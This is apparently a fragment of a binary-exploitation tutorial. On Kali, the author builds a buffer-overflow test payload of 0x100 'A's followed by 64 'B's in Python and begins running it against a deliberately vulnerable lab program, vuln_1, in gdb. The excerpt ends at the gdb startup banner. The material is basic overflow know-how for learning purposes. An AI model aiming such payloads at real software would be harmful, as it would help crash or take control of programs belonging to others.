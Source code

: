   

```bash

name = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...(* 0x100)...BBBBBBBBB(* 64)'

```

  

We can generate this payload using python:

  

```python

┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ python3

Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux

Type "help", "copyright", "credits" or "license" for more information.

>>> b"A"*0x100 + b"B"*64

b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'

>>>

```

  

### Testing the Buffer

  

Let's try this buffer as an input in our vulnerable program w/ `gdb`:

  

```bash

┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ gdb ./vuln_1

GNU gdb (Debian 13.2-1) 13.2

Copyright (C) 2023 Free Software Foundation, Inc.

License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software: you are free to change and redistribute it.

There is NO WARRANTY, to the extent permitted by law.

Type "show copying" and "show warranty" for details.

This GDB was configured as "x86_64-linux-gnu".

Type "show configuration" for configuration details.

For bug reporting instructions, please see:

<https://www.gnu.org/software/gdb/bugs/>.

```